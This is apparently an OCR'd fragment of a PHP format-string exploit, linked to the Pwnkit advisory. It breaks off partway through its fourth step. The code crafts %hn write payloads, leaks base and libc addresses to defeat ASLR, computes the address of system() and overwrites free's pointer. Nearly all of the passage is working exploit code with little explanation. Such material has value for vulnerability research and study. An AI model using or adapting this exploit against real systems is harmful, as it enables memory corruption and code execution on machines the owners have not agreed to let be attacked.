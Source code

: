 ```php
// argv[0] points to &return addr
$target   = ASLR_RET;
$payload .= c16($target - $size);
$payload .= "%hn";
$size     = $target;

// We can use $ from now on

// loop in vuln
$target   = ASLR_LOOP;
$payload .= cn16(IDX_ARG0, $target - $size);
$size     = $target;

try {
	$leak = fmt($fp, $payload);
} catch(Exception $e) {
	exit(1);
}

$base = hexdec(substr($leak, 0x08, 16)) - 0x135C;
$libc = hexdec(substr($leak, 0x19, 16)) - 0x24083;

printf("[+] Base: %X\n", $base);
printf("[+] libc: %X\n", $libc);
printf("\n");

assert(0 === ($base & 0xFFF));
assert(0 === ($base >> 48));

assert(0 === ($libc & 0xFFF));
assert(0 === ($libc >> 48));

$system = $libc + 0x00052290;

step2: // prepare a pointer to free
$size     = ASLR_LOOP;
$payload  = cn16(IDX_ARG0, $size);

$target   = ASLR_RET + 0x20;
$payload .= cn16(IDX_ARGV, $target - $size);
$size     = $target;

fmt($fp, $payload);


step3: // patch free
$size     = IDX_ARG0 - 2;
$payload  = str_repeat("%c", $size);

$target   = ASLR_FREE;
$payload .= c16($target - $size);
$size     = $target;

$payload .= "%hn";

$target   = ASLR_VULN;
$payload .= cn16(IDX_BASE, $target - $size);

fmt($fp, $payload);


step4: // first call to free, prepare loop again
for($i = 0; $i < 4; $i++) {
```

[pwnkit]: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt